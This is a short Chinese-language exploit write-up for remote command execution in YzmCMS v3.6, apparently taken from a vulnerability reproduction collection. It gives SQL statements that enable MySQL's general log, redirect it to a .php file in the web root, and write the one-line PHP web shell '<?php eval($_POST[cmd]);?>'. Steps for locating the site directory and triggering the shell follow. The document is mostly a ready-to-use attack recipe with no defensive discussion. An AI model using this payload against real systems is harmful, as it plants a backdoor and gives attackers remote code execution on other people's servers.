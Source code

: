 # YzmCMS v3.6 远程命令执行

### 一、漏洞简介

### 二、漏洞影响

YzmCMS v3.6

### 三、复现过程

Payload：


```sql
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell
```

1、执行sql语句，查看mysql日志配置情况

![](images/15896468533357.png)


2、根据日志文件位置或者默认站点路径来推测站点目录，可用load_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![](images/15896468677717.png)


3、分别执行下列sql语句，将脚本代码写入文件：


```sql
set global general_log = on;         

set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';  
```

![](images/15896468835249.png)


4、提交参数，执行脚本代码：

![](images/15896468908470.png)
